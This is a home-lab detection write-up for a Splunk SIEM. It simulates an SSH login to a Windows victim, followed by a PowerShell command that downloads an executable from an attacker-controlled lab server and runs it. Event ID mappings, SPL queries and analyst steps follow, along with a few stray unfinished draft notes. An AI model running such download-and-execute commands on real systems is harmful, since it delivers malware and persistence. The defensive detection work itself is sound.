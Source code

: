 

# Detection Usecase 3 : Suspicious File Download and Execution


# Scenario Summary: 
Attacker or Malicious Person attemps to download and execute a shell in the target system  
to maintain persistence with the target, using Powershell.

# Attack Steps:
Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.

- The Attack was simulated by Kali Linux on Windows as follows:  
1) Attacker Login to Victim Machine via SSH  
```
ssh sshuser@10.10.99.77
```  
2) Opened a Python Server from which local file can be uploaded in remote system.  
```
python3 -m http.server 80
```  

3) He tries to upload and execute a shell through powershell to stay persistent in target system.
```
Invoke-WebRequest -URi http://10.10.90.252/exploit.exe -Outfile C:\Users\sshuser\shell.exe  
Start-Process C:\Users\sshuser\shell.exe
```

Tools Used:  
-Attacker Tool : SSH, Powershell, 
-SIEM : Splunk Free  
-Log Source : Windows Security Event Logs, Sysmon


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successfully Logged On           |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Security    | 5156      | Windows Permitted a Connection   |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 11        | File Creation                    |
File run karna hai poweru.ps1
| WinEventLog : Security    | 4634      | User was logged off              |

# Detection Query / Logic:
```spl 
- Search Login
index=* EventCode=4624 Account_Domain="VIRTUAL USERS" sshd.exe
```
```spl 
- Search Pwsh
index=* EventCode=1 CommandLine="powershell"
```
```spl 
- Search Connection Attempt
index=* EventCode=3 OR EventCode=5156
```
```spl 
- Search File Creation
index=* EventCode=11
```

# Sample Alert Screenshot

1) Attacker Run command : powershell 
![powershell](<logs/Screenshot 2025-05-25 134135.png>)

3) Try to make connection with a remote server.  
![permits](<screenshots/Screenshot 2025-05-25 134338.png>)
![attempt](<logs/Screenshot 2025-05-25 132612.png>)

4) System has generated a file based on the pwsh cmd.  
![file](<logs/Screenshot 2025-05-25 135543.png>)

5) File was run  
#----------------Photo nikal iska----------------

6) Downloaded File  
![downloaded](<screenshots/Screenshot 2025-05-25 135810.png>)

# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the events through analysis of log and alerts.  
-> Try to look for pattern like File Extension's(.e.g., .exe, .ps1, .php etc).  
-> If it is a unauthorized execution , then try to isolate the System, Kill the process, & Block the domain or IP.  
-> Fix the vulnerability which caused the attack to happen(e.g., Password Policy - Change Pass every week).  
-> Report & Document.


# Detection Status

 -> Successfully Detected.  
